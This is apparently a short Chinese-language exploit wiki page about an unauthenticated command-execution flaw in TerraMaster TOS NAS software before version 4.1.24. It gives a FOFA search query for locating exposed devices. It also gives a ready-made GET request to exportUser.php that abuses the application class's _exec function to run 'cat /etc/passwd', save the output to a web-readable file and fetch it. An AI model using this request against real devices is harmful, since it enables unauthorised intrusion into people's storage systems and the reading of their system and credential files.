 <languages /> <translate>

漏洞影響
--------

</translate>

    TerraMaster TOS < 4.1.24

FOFA
----

    "TerraMaster" && header="TOS"

<translate>

漏洞利用
--------

</translate>

<translate> 在其他文件的代碼檢查期間，也發現有一種方法可以利用TOS軟件中預先存在的類來利用此問題。位於`include/class/application.class.php`中的PHP類是在運行TOS軟件的設備上執行命令的最佳人選。

由於exportUser.php沒有身份驗證控件，因此未經身份驗證的攻擊者有可能通過提供以下值作為HTTP GET參數來實現代碼執行。 </translate>

    http://xxx.xxx.xxx.xxx/include/exportUser.php?type=3&cla=application&func=_exec&opt=(cat%20/etc/passwd)>test.txt

<translate> 返回200後再次訪問 </translate>

    http://xxx.xxx.xxx.xxx/include/test.txt

<translate>

參考
----

</translate> <https://short.pwnwiki.org/?c=0s3FRY>